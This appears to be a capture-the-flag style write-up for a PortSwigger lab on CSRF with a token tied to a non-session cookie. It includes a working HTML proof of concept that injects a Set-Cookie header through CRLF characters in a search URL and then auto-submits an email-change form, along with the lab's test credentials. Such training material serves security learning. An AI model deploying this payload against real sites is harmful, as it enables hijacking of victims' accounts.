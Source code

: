 # Lab: CSRF where token is tied to non-session cookie

 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

* wiener:peter
* carlos:montoya

## CSRF
* 這一題因為 cookie 中的 csrfKey 跟 token 是綁定的，所以只要 victim 的 cookie 是我們指定的 key，這樣就可以改 email 了，觀察一下可以發現在 search 頁面可以用 `%0a%0d` 這樣就可以 set 指定的 cookie 了
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://aca81fcc1e0ca02ec0682276002600f4.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="exploit&#64;entroy&#46;tk" />
      <input type="hidden" name="csrf" value="9uEdA3PXKyhToHiNuPxmEl9WyLzAhdiN" />
    </form>
  </body>
<script>
var image = new Image();
image.src = "https://aca81fcc1e0ca02ec0682276002600f4.web-security-academy.net/?search=a%0a%0dSet-Cookie:+csrfKey=emZQ78eji8iGETEAN1Kjf3rfdRPODyu0";
image.onerror = document.forms[0].submit();
</script>
</html>
```
